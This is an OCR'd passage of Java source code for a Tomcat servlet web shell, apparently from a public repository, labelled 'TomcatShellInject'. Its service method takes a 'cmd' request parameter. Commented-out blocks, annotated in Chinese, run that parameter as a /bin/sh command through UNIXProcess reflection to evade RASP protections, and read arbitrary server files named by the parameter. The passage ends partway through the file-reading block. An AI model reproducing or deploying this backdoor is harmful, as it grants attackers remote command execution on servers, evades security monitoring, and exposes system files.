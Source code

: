 ```java
    public void init(ServletConfig config) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        System.out.println(
                "TomcatShellInject doFilter.....................................................................");
        String cmdParamName = "cmd";
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null){
////UNIXProcessImpl 绕过ProcessImpl.start、Runtime.exec RASP，详情搜索JNI
//            Class<?> cls = null;
//            try {
//                cls = Class.forName("java.lang.UNIXProcess");
//            } catch (ClassNotFoundException e) {
//                throw new RuntimeException(e);
//            }
//            Constructor<?> constructor = cls.getDeclaredConstructors()[0];
//            constructor.setAccessible(true);
//            String[] command = {"/bin/sh", "-c", cmd};
//            byte[] prog = toCString(command[0]);
//            byte[] argBlock = getArgBlock(command);
//            int argc = argBlock.length;
//            int[] fds = {-1, -1, -1};
//            Object obj = null;
//            try {
//                obj = constructor.newInstance(prog, argBlock, argc, null, 0, null, fds, false);
//                Method method = cls.getDeclaredMethod("getInputStream");
//                method.setAccessible(true);
//                InputStream is = (InputStream) method.invoke(obj);
//                InputStreamReader isr = new InputStreamReader(is);
//                BufferedReader br = new BufferedReader(isr);
//                StringBuilder stringBuilder = new StringBuilder();
//                String line;
//                while ((line = br.readLine()) != null) {
//                    stringBuilder.append(line + '\n');
//                }
//                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
//            } catch (InstantiationException | NoSuchMethodException | InvocationTargetException |
//                     IllegalAccessException e) {
//                throw new RuntimeException(e);
//            }
//            servletResponse.getOutputStream().flush();
//            servletResponse.getOutputStream().close();
//            return;

////读文件
//            File file = new File(cmd);
//            // 1. 确保文件存在且可读
//            if (!file.exists() || !file.isFile() || !file.canRead()) {
//                System.out.println("文件不存在或无法读取: " + cmd);
//                ((HttpServletResponse) servletResponse).sendError(HttpServletResponse.SC_NOT_FOUND, "文件不存在");
//                return;
//            }
```